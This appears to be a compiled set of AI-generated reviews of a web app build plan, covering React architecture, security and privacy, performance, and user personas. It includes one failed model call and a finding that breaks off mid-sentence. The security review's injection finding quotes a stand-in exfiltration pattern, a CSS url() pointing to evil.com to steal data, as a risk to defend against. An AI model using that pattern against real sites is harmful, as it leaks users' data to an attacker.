**Circular dependency risk:** `LensRenderer` reads `LensDocument`; `useMorphState` reads `LensDocument` to know when loading is done; `MorphTransition` reads `MorphPhase`. If `LensRenderer` also writes to `MorphPhase` (e.g., "I finished rendering, set phase to settled"), you get a render-loop. Fix: `MorphTransition` owns the `onMorphComplete` callback; `LensRenderer` is purely presentational and fires no state writes.

---

## Finding 3 — Data Flow

| Field | Value |
|---|---|
| **Severity** | 🔴 Critical |
| **Location** | Section 4 — "Voice/intent → API orchestration → state document → render" |
| **Issue** | The plan describes a linear pipeline but does not address the race condition that is almost certain in production: a user speaks a second intent while the first morph is still in the `morphing` phase (600–900ms is a long window for a fast user). If the second intent fires a new Lens load while `MorphTransition` is mid-animation, the shared-layout `layoutId` anchors will be in an indeterminate position and Framer Motion will produce a visual glitch or throw. Additionally, the plan says "URLs survive the morph" but does not specify whether the URL update happens at `intent-received`, `lens-loading`, or `settled` — each choice has different back-button behavior implications. |
| **Recommended Fix** | |

```typescript
// In useMorphState.ts — queue intents, never interrupt a morph in flight
function useMorphState() {
  const [phase, setPhase] = useState<MorphPhase>('idle');
  const pendingIntent = useRef<string | null>(null);

  const receiveIntent = useCallback((intent: string) => {
    if (phase === 'morphing') {
      // Queue it; fire after onMorphComplete
      pendingIntent.current = intent;
      return;
    }
    startMorph(intent);
  }, [phase]);

  const onMorphComplete = useCallback(() => {
    setPhase('settled');
    if (pendingIntent.current) {
      const queued = pendingIntent.current;
      pendingIntent.current = null;
      startMorph(queued);  // drain queue
    }
  }, []);
}
```

**URL timing:** Update the URL at `lens-loading` start (optimistic), not at `settled`. This matches browser navigation expectations — the URL reflects intent, not render completion. Use `history.replaceState` during morph, `history.pushState` only on `settled` so back-button rewinds to the previous settled state, not an intermediate loading state.

**Stale Lens risk:** If a Lens document is cached and the registry has been updated (new component version), the cached Lens may reference a component ID that no longer exists or has a breaking prop change. The `schemaVersion` integer on `LensDocument` must be checked against the registry's own version manifest on every load, not just on first fetch.

---

## Finding 4 — React Patterns

| Field | Value |
|---|---|
| **Severity** | 🟡 High |
| **Location** | Section 4 — "Generation Ladder" and "Component Registry" |
| **Issue** | The plan describes dynamic component assembly (registry blocks assembled at runtime) but does not address the memoization strategy. In a registry-driven render, `LensRenderer` will map over `LensDocument.components` and render each one. Without `React.memo` on every registry component AND a stable `key` strategy tied to the `data-morph` anchor id (not array index), every intent update will unmount and remount all components, destroying Framer Motion's shared-layout continuity. The `layoutId` for a morph to work must survive across renders — it cannot be on a component that unmounts. |
| **Recommended Fix** | |

```typescript
// LensRenderer.tsx — stable keys, memoized registry lookup
const LensRenderer = React.memo(({ lens }: { lens: LensDocument }) => {
  const registry = useComponentRegistry();
  
  // useMemo: only recompute component list when lens.components changes
  const resolvedComponents = useMemo(() => 
    lens.components.map(ref => ({
      ...ref,
      Component: registry.get(ref.id),  // React.lazy component
    })),
    [lens.components, registry]
  );

  return (
    <GridShell>
      <AnimatePresence mode="wait">
        {resolvedComponents.map(({ morphAnchor, Component, props }) => (
          // Key = morphAnchor id, NOT array index
          // layoutId = morphAnchor id so Framer tracks across Lens swaps
          <motion.div
            key={morphAnchor}
            layoutId={morphAnchor}
          >
            <Suspense fallback={<MorphSkeleton anchorId={morphAnchor} />}>
              <Component {...props} />
            </Suspense>
          </motion.div>
        ))}
      </AnimatePresence>
    </GridShell>
  );
});
```

**Additional pattern gap:** The Totem (persistent element) must be rendered *outside* `AnimatePresence` entirely. If it is inside the morph transition group, it will be subject to exit animations and the "spatial continuity" guarantee breaks. It should be a sibling of `LensRenderer` in `MorphCanvas`, not a child.

---

## Finding 5 — File Budget (300-line limit)

| Field | Value |
|---|---|
| **Severity** | 🟡 High |
| **Location** | Implied by plan scope — no files exist yet |
| **Issue** | Three proposed conceptual units will almost certainly exceed 300 lines if naively implemented as single files: |

| Conceptual Unit | Risk | Mitigation |
|---|---|---|
| `MorphCanvas.tsx` | Orchestrates morph state machine + URL sync + Totem + LensRenderer + error boundaries + Trust context. Easily 400–600 lines. | Split into `MorphCanvas.tsx` (pure layout shell, ~80 lines) + `MorphOrchestrator.tsx` (state machine wiring, ~150 lines) + `MorphCanvas.stories.tsx` (separate). |
| `LensDocument` schema + validation | If Zod schemas, migration functions, and type guards live together: 300+ lines. | `lens.schema.ts` (Zod), `lens.migrations.ts` (version bumps), `lens.types.ts` (TypeScript interfaces) — three files. |
| `ComponentRegistry.ts` | If it contains the registry map, lazy imports for all 50+ corpus components, and the lookup/registration API: easily 400+ lines. | Registry map lives in `registry.manifest.ts` (auto-generated). API lives in `registry.ts` (~80 lines). Each corpus component is its own file. |
| `TrustGate.tsx` | T0–T4 logic + approval modal + audit receipt + styled-components variants. | Split `TrustGate.tsx` (gate wrapper) from `ApprovalModal.tsx` and `AuditReceipt.tsx`. |

---

## Finding 6 — Hook Design

| Field | Value |
|---|---|
| **Severity** | 🟡 High |
| **Location** | Section 4 — all hooks implied but unnamed |
| **Issue** | The plan conflates three hook concerns that must be separated for testability and reuse. Currently the plan implies a single "morph hook" that handles intent parsing, API orchestration, Lens loading, and animation phase — this is a god-hook anti-pattern. On a production SaaS platform, each concern needs to be independently mockable for testing. |
| **Recommended Fix** | Enforce this separation strictly: |

```
Data fetching hooks (network I/O only, no UI state):
  useLensDocument(lensId)     → { data, loading, error, refetch }
  useIntentResolution(intent) → { lensId, confidence, loading, error }
  useApiOrchestration()       → { fire, results, loading, error }

UI state hooks (no network, no business logic):
  useMorphPhase()             → { phase, setPhase }
  useTotemVisibility()        → { visible, show, hide }
  useTrustTierUI(tier)        → { requiresApproval, approvalState, approve, reject }

Business logic hooks (compose data + UI, no direct render):
  useMorphEngine()            → composes useLensDocument + useMorphPhase + useIntentResolution
  useLensSession()            → composes useApiOrchestration + useSession + useTrustTierUI
```

**Specific risk:** `useMorphEngine` is the composition hook that will be tempting to bloat. It must remain a thin coordinator — if it exceeds ~80 lines, it is doing too much and should be split further.

---

## Finding 7 — Error Boundaries

| Field | Value |
|---|---|
| **Severity** | 🟡 High |
| **Location** | Section 4 — "Generation Ladder" step (c), Trust Layer, Lens loading |
| **Issue** | The plan describes three failure modes that require distinct error boundary strategies, none of which are specified: (1) a registry component throws during render (especially dangerous for step-(c) generated components promoted from sandbox), (2) a Lens document fails to load or has a schema mismatch, (3) a T3/T4 Trust action fails mid-approval. Without boundaries, any of these crashes the entire Canvas — the worst possible failure mode for a shell that is supposed to be the "render + approval layer of the agentic web." |
| **Recommended Fix** | Three-layer boundary strategy: |

```tsx
// Layer 1: Canvas-level — catches total failures, renders Totem-only fallback
// so the user can still issue a new intent even if the current Lens is broken
<CanvasErrorBoundary fallback={<TotemOnlyFallback />}>
  <MorphCanvas />
</CanvasErrorBoundary>

// Layer 2: Lens-level — catches Lens render failures, shows last-known-good Lens
// or a "Lens unavailable" state without killing the shell
<LensErrorBoundary lensId={currentLensId} fallback={<LensUnavailable />}>
  <LensRenderer lens={lensDocument} />
</LensErrorBoundary>

// Layer 3: Component-level — wraps EVERY registry component
// Generated (step-c) components get a stricter boundary with automatic
// demotion back to sandbox on repeated failures
<RegistryComponentBoundary 
  componentId={ref.id}
  onFailure={registry.reportFailure}  // triggers demotion if threshold exceeded
>
  <Suspense fallback={<MorphSkeleton />}>
    <Component {...props} />
  </Suspense>
</RegistryComponentBoundary>
```

**Trust action boundary (special case):** T3/T4 approval flows must have their own boundary that, on failure, renders an explicit "action could not be completed" state with the audit receipt preserved. A failed payment or file-send must never sil

---

## [PASS] Security & Privacy Planning
**Model:** nvidia/nemotron-3-nano-30b-a3b:free | **Duration:** 22.9s

## Security Review of **Inception Canvas / Lens Foundry – Build‑Out Plan**  
*Prepared for: SwanStudios production SaaS (React + TS + styled‑components, Node/Express/Sequelize/PostgreSQL)*  
*Policy constraint: **ZERO PII TO LLMs** – no client‑identifying data may be transmitted to external AI providers.*

---  

### 1. PII / Sensitive‑Data Exposure  

| Finding | Rating | Why it matters (derived from the plan) | Mitigation |
|---------|--------|----------------------------------------|------------|
| **Voice‑intent capture** – The morph engine routes *spoken words* to APIs and then builds a **state document**. This implies client‑side microphone access and transmission of the audio snippet (or its transcription) to the backend or an LLM for intent parsing. | **HIGH** | The plan explicitly mentions “Voice/intent → API orchestration”. If the transcription step is performed by an external LLM, any spoken name, email, or health‑related phrase would be PII. Even if the transcription stays local, the **captured audio buffer** is a new surface that could be logged or leaked. | • Keep all voice processing **client‑side only** (Web Speech API) and never send raw audio or transcriptions to any external service. <br>• If a server‑side LLM is unavoidable, enforce **real‑time de‑identification**: strip speaker tags, replace any proper nouns with placeholders, and discard after state‑doc generation. <br>• Log only a hash of the intent token, never the original utterance. |
| **State‑document storage** – The generated JSON Lens is persisted (e.g., in IndexedDB, localStorage, or server‑side DB) and may contain **user‑specific preferences, session IDs, or derived personalization data**. | **MEDIUM** | Although the plan does not state that the JSON contains PII, any persisted user‑specific context (e.g., “last‑used lens”, “saved workflow”) can be considered **personal data** under GDPR/CCPA. | • Encrypt the JSON at rest (AES‑GCM) before writing to any storage. <br>• Scope the key to the authenticated user session; purge on logout. <br>• Do not store any fields that are not strictly required for morphing (e.g., remove any “user_id” or “email” fields). |
| **Marketplace / Lens sharing** – Third‑party authored lenses are “sellable” units. When a lens is shared, the **owner’s identifier** (e.g., a seller account) may be embedded in the Lens metadata. | **LOW** | The plan treats lenses as sellable assets; the platform will need to track *who* authored a lens. This is internal metadata, not user‑PII, but could expose **business‑level PII** if not properly isolated. | • Store author IDs only in an internal, access‑controlled table. <br>• Expose only a **public UUID** or hash to the client; never expose email or internal DB primary key. |

---  

### 2. Upload / File / Media Risks  

| Finding | Rating | Why it matters (derived from the plan) | Mitigation |
|---------|--------|----------------------------------------|------------|
| **No explicit file‑upload feature** is described in the plan. The only “media” mentioned is **Google Fonts** (external) and static HTML assets. | **LOW** | Because the plan does **not** introduce a user‑driven upload UI (e.g., image, video, PDF), there is no direct vector for malicious file ingestion. | • If future UI adds uploads, enforce: <br> - Server‑side virus scanning (ClamAV) <br> - Strict MIME‑type whitelist <br> - Store uploads outside the web‑root and serve via signed URLs. |
| **Potential indirect upload via “state document”** – The morph engine may accept **user‑provided JSON** to seed a lens. If a user can paste arbitrary JSON, it could be interpreted as a **script‑injection** vector. | **MEDIUM** | The plan mentions “state document (JSON) → render”. If the JSON is not sanitized, an attacker could embed `<script>` tags or `src` URLs that the renderer would execute. | • Treat any inbound JSON as **untrusted data**; parse with a safe schema validator (e.g., `ajv`). <br>• Strip any `script`, `style`, or `on*` attributes before insertion into the DOM. <br>• Render JSON data only via **React component props**, never via `innerHTML`. |

---  

### 3. Audio/Video/Biometric Privacy  

| Finding | Rating | Why it matters (derived from the plan) | Mitigation |
|---------|--------|----------------------------------------|------------|
| **Voice‑intent capture** (see above) is the only **biometric‑type** data mentioned. No video or raw biometric streams are referenced. | **HIGH** (for voice) | Voice is classified as a **biometric identifier** under many privacy regimes (e.g., BIPA, GDPR). The plan’s “voice/intent” flow could expose a user’s speech patterns, accents, or health‑related utterances. | • Implement **opt‑in consent** before enabling microphone access. <br>• Show a clear UI indicator (e.g., red dot) when recording is active. <br>• Immediately discard the audio buffer after intent extraction; never persist. |
| **No video or biometric data** is planned, so no additional privacy surface exists beyond voice. | — | — | — |

---  

### 4. Data at Rest  

| Finding | Rating | Why it matters (derived from the plan) | Mitigation |
|---------|--------|----------------------------------------|------------|
| **State‑document JSON** is persisted (client‑side or server‑side) as part of a **Lens**. This may contain user‑specific configuration, session tokens, or derived preferences. | **MEDIUM** | Persistent storage of user‑specific data without encryption could be read by an attacker who gains DB or filesystem access. | • Encrypt at rest using **AES‑256‑GCM** with per‑user keys derived from the auth session. <br>• Rotate encryption keys annually. <br>• Restrict DB read access to the **backend service account** only; no direct DB exposure to front‑end. |
| **Marketplace Lens metadata** (author ID, version, pricing) is stored in the PostgreSQL backend. | **LOW** | This is **business data**, not personal data, but could be considered sensitive if it reveals pricing strategies. | • Apply standard RBAC: only `admin` and `finance` roles may read pricing tables. <br>• Use column‑level encryption for `price` if required by compliance. |
| **Cache of rendered lenses** (e.g., CDN edge cache) may store static assets derived from user‑generated lenses. | **MEDIUM** | If a cached asset includes **personalized styling** (e.g., user‑specific color tokens), it could leak information when served to other users. | • Ensure cached assets are **user‑agnostic**; strip any per‑user CSS custom properties before caching. <br>• Use a **cache‑busting query string** that includes a hash of the user’s session ID, then purge when the session ends. |

---  

### 5. AuthZ / RBAC Enforcement  

| Finding | Rating | Why it matters (derived from the plan) | Mitigation |
|---------|--------|----------------------------------------|------------|
| **Multiple roles** are mentioned: *admin, trainer, client, etc.* The plan does **not** detail the exact permission matrix. | **HIGH** | Without explicit scoping, there is risk of **IDOR** or **cross‑tenant** data leakage (e.g., a trainer accessing another trainer’s lens drafts). | • Define a **fine‑grained policy** per role: <br> - `admin`: full access to Engine, Marketplace, Trust Layer. <br> - `trainer`: can view and test lenses but cannot publish. <br> - `client`: read‑only access to public lenses. <br>• Enforce **resource‑level permissions** in the backend (e.g., `lens.ownerId === req.user.id` before allowing edit). <br>• Use **UUID‑based identifiers** that are not guessable; never expose primary keys in URLs. |
| **Lens marketplace** allows third parties to sell lenses. The platform must isolate **tenant data** (e.g., separate DB schemas or row‑level security). | **MEDIUM** | If tenant isolation is not enforced, a malicious seller could query another tenant’s lens metadata. | • Use **Row‑Level Security (RLS)** in PostgreSQL: `CREATE POLICY tenant_isolation ON lenses USING (auth.uid() = owner_id);`. <br>• Audit all API endpoints that accept a `lensId` to verify ownership before returning data. |
| **Generated components carry “effect tier”** (T0–T4) that may trigger actions like `send`, `file`, `pay`. These actions must be gated by **approval** for T3/T4. | **HIGH** | If a user can bypass the approval step, they could trigger privileged actions (e.g., payment) on behalf of another user. | • Implement **server‑side approval workflow** for any T3/T4 request; the UI must present a **confirmation dialog** that includes the exact action description. <br>• Log every approval with immutable audit receipt (append‑only). <br>• Enforce that only **authenticated admin** can grant T3/T4 privileges. |

---  

### 6. Browser‑API / Permission Risks  

| Finding | Rating | Why it matters (derived from the plan) | Mitigation |
|---------|--------|----------------------------------------|------------|
| **Web Speech API** (voice intent) requires `microphone` permission. The plan does not discuss permission request flow. | **MEDIUM** | Browsers may prompt the user repeatedly; if the UI does not clearly explain why the permission is needed, users may grant it unintentionally, leading to privacy backlash. | • Request permission **only on first use** and store the grant state. <br>• Show a **modal** that explains the purpose (“Enable voice commands to build your app”) and links to a privacy notice. <br>• Provide a **fallback** (text‑based intent entry) for users who deny. |
| **View Transitions API** and **Framer Motion** are used for morph animations. These APIs can **interfere with navigation** and may keep event listeners alive after a page unload. | **LOW** | Improper cleanup could lead to **memory leaks** or **stale event handlers** that capture sensitive data. | • Register cleanup callbacks in `useEffect` (`return () => { … }`) to cancel animations and remove listeners when the component unmounts. <br>• Test on low‑end devices to ensure no “zombie” workers remain. |
| **URL routing** survives morphs (`/lens/<name>`). If a URL contains a **token** that encodes user‑specific data, it could be **shared** and expose that data to unintended viewers. | **MEDIUM** | The plan treats URLs as addressable lenses; a leaked URL could reveal a private lens or user‑specific state. | • Do **not** embed personally identifiable tokens in the URL path. Use opaque identifiers (e.g., UUID) that map to server‑side records with proper access checks. <br>• Add a **short‑lived token** (e.g., JWT) that expires after a configurable period. |

---  

### 7. Injection / XSS  

| Finding | Rating | Why it matters (derived from the plan) | Mitigation |
|---------|--------|----------------------------------------|------------|
| **User‑generated content** may be rendered inside the morph canvas (e.g., custom blocks, rich text). The plan mentions “rendering that state by assembling registry components”. | **HIGH** | If any part of the **state document** or marketplace‑provided HTML is inserted via `innerHTML`, an attacker could inject malicious scripts. | • **Never** use `innerHTML` for user data. <br>• Use **React** component props that automatically escape values. <br>• For any rich‑text blocks, sanitize with a library like **DOMPurify** before insertion. |
| **CSS custom properties** are used for theming (`var(--token, #fallback)`). While CSS cannot execute script, **CSS injection** can be leveraged for **side‑channel attacks** (e.g., exfiltrating data via `url()`). | **LOW** | The plan enforces a brand fallback and never hard‑codes hex values; however, an attacker could set a custom property to `url(https://evil.com/steal?data=…)`. | • Validate all CSS custom property values against a **whitelist** of allowed patterns before applying them to DOM elements. <br>• Disallow `url()` functions in user‑controlled styles. |
| **Dynamic script loading** is not mentioned, but the **Marketplace** may allow third‑party lenses that reference external scripts. | **CRITICAL** | If a third‑party lens can load arbitrary scripts, it defeats the **ZERO PII TO LLMs** policy and introduces a supply‑chain attack vector. | • **Disallow** any external script loading from third‑party lenses. <br>• All lenses must be **pre‑approved** and bundled with their own self‑contained code. <br>• Run lenses in a **sandboxed iframe** with `sandbox` attributes (`allow-scripts` only if whitelisted). |

---  

## Summary of Ratings  

| Category | Highest Rating |
|----------|----------------|
| PII / Sensitive‑Data Exposure | **HIGH** |
| Upload / File / Media Risks | **MEDIUM** |
| Audio/Video/Biometric Privacy | **HIGH** (voice) |
| Data at Rest | **MEDIUM** |
| AuthZ / RBAC Enforcement | **HIGH** |
| Browser‑API / Permission Risks | **MEDIUM** |
| Injection / XSS | **CRITICAL** (potential via marketplace lenses) |

---  

## Consolidated Mitigation Checklist  

1. **Voice Intent** – Keep transcription **client‑side only**; discard audio immediately; never send to external LLMs.  
2. **State Document** – Encrypt at rest; purge on logout; never store PII fields.  
3. **Marketplace Lenses** – Sandbox execution; forbid external script loads; enforce tenant‑level RLS.  
4. **RBAC** – Implement fine‑grained policies; verify ownership on every lens‑related endpoint; audit T3/T4 actions.  
5. **XSS Prevention** – Sanitize any user‑generated HTML; use React escaping; CSP with `script-src 'self'`.  
6. **Browser Permissions** – Prompt with clear UI; store consent; provide fallback; clean up event listeners.  
7. **URL Safety** – Use opaque, non‑identifying identifiers; short‑lived tokens; server‑side validation of every `lensId`.  
8. **Data‑at‑Rest Controls** – AES‑GCM encryption, key rotation, limited DB access, cache‑busting for user‑specific assets.  

---  

*All findings are derived strictly from the content of the provided plan document; no external assumptions have been made.*

---

## [PASS] Performance & Bundle Impact
**Model:** google/gemini-3-flash-preview-20251217 | **Duration:** 11.4s

As a Web Performance Engineer for SwanStudios, I have reviewed the **Inception Canvas / Lens Foundry** plan. This is a high-risk, high-reward architectural shift. While the "morph" concept is visually arresting, it introduces significant overhead in DOM complexity and runtime calculation.

Below is the performance impact assessment based on the provided plan.

---

### 1. Bundle Size & Dependency Tally
The plan introduces heavy animation and state orchestration libraries.
*   **Framer Motion (~35kB gzip):** Required for `layoutId` shared-element transitions. **CRITICAL:** Must be tree-shaken; use `m` and `LazyMotion` features to avoid dragging in the entire library.
*   **View Transitions API Polyfill (~5kB gzip):** Necessary for browsers not yet supporting the native spec to ensure the "morph" doesn't break.
*   **Victory Charts (~40-60kB gzip):** (Existing stack) If Lenses include data viz, these must be lazy-loaded per Lens.
*   **The "Engine" Registry:** As the corpus grows to 50+ Lenses, the component registry will swell.
*   **Optimization:** Implement **Component-Level Code Splitting**. Do not bundle all 50 Lenses. Use a dynamic import map where `Lens[ID]` is fetched only when the intent-engine triggers a morph.
*   **Rating: HIGH**

### 2. Render Performance (The Morph Budget)
The plan targets a **600–900ms morph** for 30–60 DOM nodes at 4K.
*   **The Risk:** Interpolating 60 nodes while swapping CSS custom properties for an entire theme can cause "Layout Thrashing."
*   **Strategy:** 
    *   **React.memo:** Every registry component must be memoized. Since the "State Document" (JSON) drives the UI, we must ensure a change in one `data-morph` anchor doesn't re-render the entire tree.
    *   **CSS Containment:** Use `contain: layout paint;` on the 7-section semantic anchors to isolate browser reflows during the morph.
*   **Rating: CRITICAL**

### 3. Memory Management
*   **The "Totem" & Persistent State:** The persistent command bar/orb and the "State Document" are long-lived. 
*   **Snapshotting:** The plan mentions "snapshotting to JSON." If users morph frequently, the undo/redo stack (back-button rewinds) could grow large. 
*   **Risk:** Memory leaks in Framer Motion's `AnimatePresence` when components are unmounted rapidly during "intent-driven" morphing.
*   **Optimization:** Implement a LRU (Least Recently Used) cache for Lens definitions in memory; purge non-active Lens schemas to the IndexedDB.
*   **Rating: MEDIUM**

### 4. Expensive Computation
*   **Token Interpolation:** Calculating the delta between two sets of 9+ CSS custom properties across a deep tree.
*   **JSON Schema Validation:** Validating the "State Document" against the "Morph Contract" on every transition.
*   **Optimization:** Use `Web Workers` for the "AI Harness" and "Protocol Adapter" to ensure the main thread stays free for the 60fps animation.
*   **Rating: MEDIUM**

### 5. Network Waterfall
*   **Sequential Fetching:** Intent → API → State Doc → Assets. This is a classic waterfall.
*   **Strategy:** 
    *   **BFF (Backend for Frontend):** The "API Orchestration" layer must aggregate the Lens JSON and the required component metadata into a single payload.
    *   **Pre-warming:** As the AI "predicts" the next intent, start pre-fetching the next Lens's CSS tokens and lightweight assets.
*   **Rating: HIGH**

### 6. Media Handling
*   **Asset-Light Corpus:** The plan smartly notes "no external assets except Google Fonts." 
*   **Risk:** "4K-crisp" visuals often rely on heavy SVGs or high-res imagery. 
*   **Optimization:** Use `priority` hints for the "Totem" asset. Since the plan uses CSS custom properties, leverage **CSS Paint API (Houdini)** for complex patterns (like the "Cyberpunk glitch") to keep the DOM light.
*   **Rating: LOW**

### 7. Code Splitting Boundaries
*   **The Engine vs. The Lenses:** The Engine (Router/Harness) should be in the main bundle.
*   **Lazy Boundaries:** 
    1.  `LensRenderer`: React.lazy() wrapper for the actual morph target.
    2.  `HeavyRegistryComponents`: Any component >10kb (e.g., complex Victory charts).
    3.  `TrustLayer`: The audit/approval UI should only load when a T3/T4 action is initiated.
*   **Rating: MEDIUM**

### 8. Animation Budget (GPU Compositing)
*   **The Rule:** Morphing must only touch `transform`, `opacity`, and `filter`. 
*   **The Danger:** The plan mentions "12-col ultra-fine grid" and "interpolating tokens." If the morph changes `grid-template-columns` or `width/height`, it will drop frames.
*   **Optimization:** Use **FLIP (First, Last, Invert, Play)** technique via Framer Motion. Ensure the "Reduced Motion" fallback skips the tween and performs an instant "Crystallize" (hard swap).
*   **Rating: HIGH**

---

### Summary of Critical Optimizations

| Feature | Risk | Optimization |
| :--- | :--- | :--- |
| **Morph Transition** | Frame drops at 4K | Use `will-change: transform` on all `data-morph` anchors; enforce CSS `containment`. |
| **Theme Swapping** | Style recalculation | Apply CSS variables at the `:root` or a high-level wrapper; avoid per-component style injections. |
| **State Document** | Main-thread blocking | Parse and validate the Lens JSON in a Web Worker. |
| **Bundle Bloat** | 50+ Lenses | Dynamic import map for Lenses; shared dependency deduplication. |

**Verdict:** The plan is technically feasible but requires a **"Performance-First" Registry**. If components are authored without strict adherence to the Morph Contract (shared skeleton), the Framer Motion `layoutId` will fail, resulting in a broken "Inception" effect. **The 600-900ms budget is the primary constraint.**

---

## [FAIL] Competitive Intelligence
**Model:** gemini-3-flash-preview-20251217 | **Duration:** 0.3s

Error: Google GenAI 404: {
  "error": {
    "code": 404,
    "message": "models/gemini-3-flash-preview-20251217 is not found for API version v1beta, or is not supported for generateContent. Call ModelService.ListModels to see the list of available models and their supported methods.",
    "status": "NOT_FOUND"
  }
}


---

## [PASS] User Persona Alignment
**Model:** nvidia/nemotron-3-nano-30b-a3b:free | **Duration:** 19.4s

## Persona‑Specific Review of the **Inception Canvas / Lens Foundry** Plan  

---  

### 1. Sean (Admin / Trainer) – “Gym‑First, Voice‑First”  

**Real‑world flow derived from the plan**  
1. **Voice command** → “Start a 5‑minute HIIT set.”  
2. **AI intent routing** → selects a *HIIT* Lens (e.g., “Crystalline Swan – HIIT”).  
3. **Canvas morphs** from the current admin dashboard into a **dark‑first, 18‑theme** workout surface.  
4. **Anchor (Totem) appears** – a floating command orb that stays visible during the whole set.  
5. **State document** returns rep count, heart‑rate, and next‑exercise suggestion.  
6. **Back‑button** rewinds the morph, letting Sean drop back to the admin view without a full page reload.  

**Friction points**  
- **Tap count:** 1 voice trigger → 1 morph → 1 tap on the Totem to pause/resume → 1 tap to log set.  
- **Between sets:** The morph must finish within **600‑900 ms** (plan budget). If it exceeds, Sean may lose momentum.  
- **Visibility of progress:** The morph must keep the **9‑token CSS custom properties** (e.g., `--accent-1`) consistent so the “glow” feedback is instantly recognizable.  

**Recommendations**  
- **Add a “quick‑pause” gesture** (double‑tap the Totem) that instantly freezes the morph without breaking the animation budget.  
- **Expose a “set‑summary” card** that appears as a **fixed overlay** (max 44 px height) so Sean can glance at reps without navigating away.  
- **Pre‑load the HIIT Lens** in the background when the admin panel loads, guaranteeing the 600‑900 ms morph window on mid‑range hardware.  

---  

### 2. Golf Client – “Premium, Trust‑Focused, Low‑Tech‑Savvy”  

**Flow derived from the plan**  
1. **Landing on `/lens/swanstudios`** – a **dark‑first Crystalline Swan** theme with a **gold‑accented** header (`--gold-token`).  
2. **AI intent** (“Book a personal training session”) triggers a **Lens morph** into a **booking‑flow** surface.  
3. **Visual continuity** – the same **9‑token token system** and **isomorphic grid** keep the layout familiar.  
4. **Trust affordance** – T3/T4 actions (e.g., “Pay now”) render as **approval‑gated controls** with audit receipts, shown as **glowing purple → cyan** buttons.  

**Why it feels premium**  
- **Dark‑first palette** (Midnight Sapphire, Obsidian Black) paired with **gold accents** (`#C6A84B`) signals luxury.  
- **Consistent anchor (Totem)** provides a **spatial anchor** that reassures the user they haven’t “gotten lost.”  
- **WCAG‑compliant contrast** (≥ 4.5:1) ensures readability for older eyes.  

**Potential friction**  
- The **dual‑button glow** (blue → purple, purple → cyan) may be unfamiliar; a short onboarding tooltip could help.  
- If the morph takes > 900 ms, the client might think the system is “slow” rather than “thoughtful.”  

**Recommendations**  
- **Add a subtle “premium badge”** (e.g., a faint sparkle on the Totem) that indicates “high‑trust action” when a payment‑type intent is detected.  
- **Pre‑render the booking Lens** as a cached JSON Lens so the morph is near‑instant (< 300 ms) on first visit.  
- **Provide a one‑tap “Help” overlay** that explains the glow‑transition in plain language (“Your payment is secure; the button will turn cyan when ready”).  

---  

### 3. Working Professional – “5‑Minute Efficiency, Mobile‑First”  

**Flow derived from the plan**  
1. **Voice or quick‑tap** (“Start a 5‑min stretch”).  
2. **AI routes** to a **Stretch Lens** (dark‑first, Frost White background).  
3. **Canvas morphs** into a **compact, single‑column view** with a **large “Start” button** (44 px min touch target).  
4. **State document** returns a timer and a “Done” button that appears as a **glowing cyan accent** (purple‑bg → cyan‑glow).  
5. **Back‑button** returns to the home screen in a single morph step.  

**Efficiency check**  
- **Number of interactions:** 1 voice/tap → 1 morph → 1 tap “Start” → 1 tap “Done.”  
- **Total time** must stay **≤ 5 minutes**; the morph must finish within **≈ 600 ms** to keep the session feeling “instant.”  
- **Touch targets** are guaranteed ≥ 44 px by the design system.  

**Blockers / Risks**  
- If the **state document** includes heavy API calls (e.g., fetching personalized stretch recommendations), the morph could exceed the time budget.  
- Over‑reliance on **voice** may fail in noisy office environments.  

**Recommendations**  
- **Cache the most common Lens JSON** (e.g., “5‑min Stretch”) locally after the first load, so subsequent sessions are **instantaneous**.  
- **Provide a fallback tap‑only entry point** (large “Start Stretch” button) that bypasses voice entirely.  
- **Show a progress bar** that is part of the morph animation (e.g., a thin cyan line that fills as the timer counts down), giving visual feedback without extra taps.  

---  

### 4. Accessibility for 40‑60‑Year‑Old Users  

| Aspect | Plan‑derived reality | Recommendation |
|--------|----------------------|----------------|
| **Font size** | Corpus uses Google Fonts; no explicit size constraints mentioned. | Enforce a **minimum 16 px** base font with **1.25×** line‑height; allow user‑scaled text up to **1.5×** without breaking the 9‑token token grid. |
| **Touch targets** | Minimum 44 px required; plan mentions “44px min touch targets.” | Verify all interactive elements (buttons, sliders, Totem) meet **44 × 44 px** in the final CSS; use `min-width`/`min-height` rather than only padding. |
| **Interaction model** | Voice‑first + morph‑based navigation; relies on visual cues (glow, token colors). | Add **ARIA live regions** that announce morph start/end and button state changes; provide **keyboard shortcuts** (e.g., `Enter` on highlighted Totem). |
| **Color contrast** | Palette includes dark backgrounds (`#0A0A0F`, `#141419`) with light tokens (`#E0ECF4`). | Run **automated contrast checks**; ensure any text over dark backgrounds meets **4.5:1** (e.g., use `--font-display` token with a light shade). |
| **Motion sensitivity** | Plan mentions “reduced‑motion safe” and “patience is slow — it must feel natural and fast.” | Offer a **system preference toggle** (`prefers-reduced-motion`) that disables the glow animation and replaces it with a simple color shift. |

---  

### 5. Trust Signals – Clarity, Honesty, Expectation‑Setting  

- **Transparency of Morph:** The plan states “the morph is not decoration — it is the act of one context folding into another.” This is a strong trust cue, but only if the user can **see the intent** behind the morph.  
- **Recommendation:** Add a **brief, non‑intrusive banner** the first time a morph occurs: “Your request is being turned into a workout view – the interface will change smoothly.”  
- **Effect‑Tier Visibility:** T3/T4 actions are rendered with **approval‑gated controls** and audit receipts. This is a clear trust builder for high‑value actions (e.g., payments).  
- **Recommendation:** Surface a **tiny “Verified by Hermes” badge** next to any T3/T4 button, reinforcing that the action is audited.  
- **Consistency of Tokens:** Because every surface uses the **same 9‑token token system**, users learn that colors and glows have predictable meanings.  
- **Recommendation:** Keep the **glow transition** (blue → purple, purple → cyan) consistent across all lenses; avoid ad‑hoc color changes that could confuse users about what is interactive.  

---  

### 6. Emotional Response – Premium Look & Feel vs. Coldness  

- **Aesthetic:** “Enchanted Apex: Crystalline Swan” is **dark‑first**, with **gold accents**, **glowing dual‑button effects**, and a **persistent Totem**. The palette (Midnight Sapphire, Ice Wing, Gilded Fern) is deliberately **luxurious yet mysterious**.  
- **Potential perception:** For some users, the deep blues and purples may feel **intimidating** or **clinical** if not balanced with warm cues.  
- **Recommendation:**  
  1. **Introduce a warm accent** (e.g., a subtle **amber glow** on hover of the Totem) to soften the cold palette.  
  2. **Use micro‑copy** that conveys “empowerment” (“Your workout, summoned”) rather than purely technical language.  
  3. **Showcase a “hero” illustration** (e.g., a stylized swan silhouette) that appears only on first morph, reinforcing the **storytelling** aspect of the brand.  

---  

## Summary of Cross‑Persona Takeaways  

| Persona | Core Strength | Primary Friction | Quick Win |
|---------|---------------|------------------|-----------|
